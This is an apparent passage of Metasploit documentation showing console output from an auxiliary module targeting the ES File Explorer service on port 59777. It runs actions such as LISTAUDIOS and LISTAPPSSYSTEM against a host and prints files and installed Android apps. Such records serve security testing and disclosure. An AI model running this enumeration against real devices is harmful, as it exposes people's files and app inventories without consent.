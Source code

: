 ```
  DragonTouch-text.mp4 (55.30 MB) - 1/20/1970 10:18:53 PM: /storage/emulated/0/Movies/DragonTouch-text.mp4

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAUDIOS
action => LISTAUDIOS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Calendar Notification.ogg (52.89 KB) - 8/6/2015 08:15:30 PM: /storage/emulated/0/Notifications/Calendar Notification.ogg

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSSYSTEM
action => LISTAPPSSYSTEM
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.android.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
  com.android.providers.partnerbookmarks (com.android.providers.partnerbookmarks) Version: 4.4.2-20150203
```
...snip...

```
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSPHONE
action => LISTAPPSPHONE
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.android.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
  com.android.providers.partnerbookmarks (com.android.providers.partnerbookmarks) Version: 4.4.2-20150203
  Mobile Data (com.android.phone) Version: 4.4.2-20150203
  Calculator (com.android.calculator2) Version: 4.4.2-20150203
```
...snip...

```
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Face Unlock (com.android.facelock) Version: 4.4.2-940549
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSSDCARD
action => LISTAPPSSDCARD
resource (es.rb)> run
[+] 1.1.1.1:59777  

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSALL
```